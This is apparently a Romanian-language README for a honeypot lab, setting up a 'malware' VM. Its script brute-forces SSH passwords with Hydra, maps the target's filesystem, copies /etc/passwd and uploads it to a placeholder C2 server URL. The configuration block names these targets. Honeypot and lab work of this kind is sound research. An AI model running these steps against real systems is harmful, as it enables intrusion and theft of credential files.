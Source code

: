 # Malware VM Setup

Acest README descrie setup-ul necesar pentru rularea scriptului de malware care se conectează la VM-ul HoneypotProxy și trimite fișiere către serverul C2.

---

## 1. Dependențe Python

Scriptul folosește următoarele librării Python:

- `paramiko` – pentru SSH
- `requests` – pentru upload către serverul C2

Instalează-le astfel:

```bash
sudo apt update
sudo apt install python3-pip -y
pip3 install paramiko requests
````

---

## 2. Hydra

Scriptul foloseste Hydra pentru a afla parola SSH:

```bash
sudo apt install hydra -y
```

* Asigură-te că fișierul de parole (`/path/to/passwords.txt`) există și conține parolele pe care vrei să le testezi.

---

## 3. Configurarea scriptului

Editează variabilele din scriptul `malware_script.py`:

```python
HONEYPOT_HOST = "0.0.0.0"   # IP-ul HoneypotProxy
HONEYPOT_USER = "name"            # User valid pe HoneypotProxy
REMOTE_FILE = "/etc/passwd"       # Fișier de extras
LOCAL_FILE = "passwd"             # Fișier local rezultat
C2_URL = "https://<C2_IP>:5000/upload"  # URL-ul serverului C2
```

---

## 4. Rulare script

Rulează manual scriptul:

```bash
python3 malware_script.py
```

* Scriptul va:

  1. Rula Hydra pentru a afla parola SSH (dacă este configurat).
  2. Conecta la HoneypotProxy prin SSH și explora structura sistemului de fișiere.
  3. Descărca fișierul specificat (`REMOTE_FILE`).
  4. Trimite fișierul către serverul C2.

---

## 5. Rețea și firewall

* Asigură-te că VM-ul malware poate accesa HoneypotProxy pe **portul 22 (SSH)**.
* Dacă serverul C2 este local, asigură-te că portul 5000 nu e blocat de firewall.

---

## 6. Fișiere rezultate

* `filesystem_map.txt` – structura sistemului de fișiere explorată.
* `passwd` – fișierul copiat de pe HoneypotProxy.

